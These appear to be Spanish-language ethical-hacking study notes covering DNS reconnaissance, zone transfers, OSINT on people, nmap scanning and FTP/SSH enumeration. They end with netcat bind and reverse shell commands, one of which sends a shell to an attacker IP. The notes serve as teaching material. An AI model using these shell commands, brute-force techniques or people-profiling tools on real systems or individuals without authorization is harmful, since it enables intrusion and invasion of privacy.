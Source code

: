 Parte de [[NF - Hacking Ético]]

## Recon DNS 1

Records WHOIS -> Punteros DNS con Dig -> Zonetransfer (A-REC)

(comandos: nslookup, dnsenum, dig, whois, host)

``` bash
whois [dominio/IP/rango]
host [dominio]
host -t [tipoDeRegistro] [dominio]
nslookup -type=[registro] [dominio]
```

---

## Recon DNS 2

Archivos de transferncia de zona: Realizando peticiones AXFR de un host a un nameserver

 Obtenemos los NS
 
``` bash
dig NS [dominio]
```

Despues podemos realizar la comprobacion con host, dig, dnsenum y dnsrecon:

``` bash
dig [@nameserver] [dominio] axfr
dnsenum [dominio]
host -la [dominio] [nameserver]
dnsrecon -d [domain] -t axfr
``` 

---

## Recon DNS 3

Enumeracion de subdominios:

Puede ser mediante dorks o crt.sh:

``` bash
site:[dominio] -www
dnsrecon -d [domain/OrganizationName] -t crt
```

O mediante fuerza bruta, por ejemplo:

``` bash
dnsrecon -d [domain] -t brt -D /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

## OSINT de usuarios y correos

Podemos utilizar dorks como intext: o inurl: con nombres de usuario para averiguar informacion sobre ellos. A nivel corporativo podemos usar theHarvester y h8mail:

``` bash
theHarvester -d [dominio] -a
h8mail -t [cuentadecorreo]
```

A nivel usuario la herramienta por excelencia es Sherlock:

``` bash
sherlock [nombreDeUsuario]
```

Aunque tambien podemos utilizar el OSINT Framework y sus paginas como whaymyname.app y thatsthem

---

## GEOSINT

Principalmente usamos geospy.ai, aunque tambien es posible una triangulacion manual con tecnicas de plonk.it

---

## Enumeracion 1 - Descubrir Hosts

Las dos opciones principales son el Ping sweep (ICMP echo pckts) y ARP Sweep.

Ping sweep utiliza ICMP, algunos dispositivos estan configurados para no responder a este tipo de trafico (Windows por defecto).

ARP Sweep nos permite utilizar una funcionalidad de red basica, todos los dispositivos estan obligados a responder a ARP ya que si no las LAN no funcionarian. La debelidad de este metodo se basa en que ARP funciona UNICAMENTE en redes locales (las peticiones ARP mueren en los routers)

Podemos realizar un ARP sweep manualmente:

``` bash
sudo arping -i [red/interfaz] -c [cantidadDePaquetes] [IP]
```

O podemos utilizar nmap, si detecta que la red es local utilizara ARP, si no utilizara ICMP:

``` bash
sudo nmap -sn [red]/[mascara]
```

Tambien hay que tener en cuenta el concepto de visibilidad: 

``` bash
ping [objetivo]
```

Nos permitira ver si un objetivo responde a nuestra peticion ICMP. Si lo hace sabemos que podemos alcanzar esa IP, si no lo hace lo unico que sabemos es que no podemos alcanzarla mediante ICMP (no debemos descartar que el pc este activo pero que no responda)

Si tenemos respuesta, el TTL nos puede dar una idea orientativa de que sistema operativo ejecuta el objetivo, ya que por defecto:

- Linux: TTL=64
- Windows: TTL=128

---

## Enumeracion 2 - Escaneo de puertos y servicios

Podemos hacerlo manualmente con netcat:

``` bash
nc -nzv [IP] [puerto]
```

Con Nmap puede sacar el estado de los puertos del tipo:
- Open
- Closed
- Filtered (Cuando se deduce que hay un firewall)
- Unfiltered (Producido solo por el escaneo ACK, cuando nmap no es capaz de interpretar la respuesta)
- open|filtered (Solo en escaneos NULL, FIN, UDP y Xmas, significa abierto o con firewall pero no determinable)
- closed|filtered (Ocurre solo con escaneos Idle)

Proprocionare solo un buen escaneo de nmap:

``` bash
sudo nmap -sS -sV -sC -O -T5 -p- -Pn [IP] -oN [fichero_salida].txt/.nmap
```

Donde:
- sS: Indica que realicemos el escaneo mediante paquetes SYN TCP
- sV: Indica que nmap tendra que averiguar que tipo de servicio se ejecuta en cada puerto
- sC: Indica que nmap tendra que ejecutar los scripts de reconocimiento basicos
- O: Indica que nmap tendra que intentar averiguar el sistema operativo y su version
- p- : Indica que nmap tendra que escanear todos los puertos TCP
- oN: Indica que nmap tendra que crear una copia de su salida al fichero especificado en formato texto plano

Podriamos reemplazar -sC -sV -O por -A.

---

## Enumeracion 3 - Scripting con nmap:

Los scripts de nmap estan en /usr/share/nmap/scripts/

Sirven para la enumeracion de servicios en detalle, deteccion de vulnerabilidades y backdoors y realizacion de ciertos tipos de ataque de fuerza bruta. Son similares a los modulos auxiliares de Metasploit.

Pueden ejecutarse con:

``` bash
sudo nmap --script [nombreScript] [IP]
```

---

## Enumeracion 4 - SSH y FTP

Son dos de los servicios mas basicos, se pueden enumerar mediante scripts de nmap. En el caso de FTP debemos saber algunos comandos propios:

- help: ver todos los comandos
- help {comando}: ver que hace un comando
- pwd: ver directorio
- dir / ls: ver directorio
- !: ejecutar comandos en la maquina local (!ls para listar la maquina local)
- put: intentar subir ficheros
- get: Descargar fichero
- mget: Descargar ficheros masivamente
- put: subir ficheros
- mput: subir ficheros masivamente
- mkdir: crear carpetas
- rm: borrar

Se pueden hacer ataques de fuerza bruta y password spray contra FTP y SSH. Si SSH es OpenSSH <7.7 ademas es vulnerable a un ataque de fuerza bruta de usuarios que podemos hacer mediante metasploit (Con el modulo auxiliar auxiliary/scanner/ssh/ssh_enumusers y una wordlist como por ejemplo /usr/share/metasploit-framework/unix_users.txt)

---

## Explotacion 1 - Bind Shells y Reverse Shells

- Bind Shell: El atacante inicia la conexion
- Reverse Shell: La victima inicia la conexion

(Ver adquisicion de shells con distintos metodos: InternalAllTheThings)

**Bind Shell**:

En la victima: 

``` bash
nc -nlvp [puerto] -e /bin/[shellbin]
```

En el equipo atacante:

``` bash
nc -nv [ipAtacante] [puerto]
```

**Reverse Shell**:

Especialmente util ya que la mayoria de bind shells no funcionara por los firewalls.

Maquina atacante:

``` bash
nc -nlvp [puerto]
```

En la maquina victima:

``` bash
nc -e /bin/[shellbin] [IP_Atacante] [Puerto]
```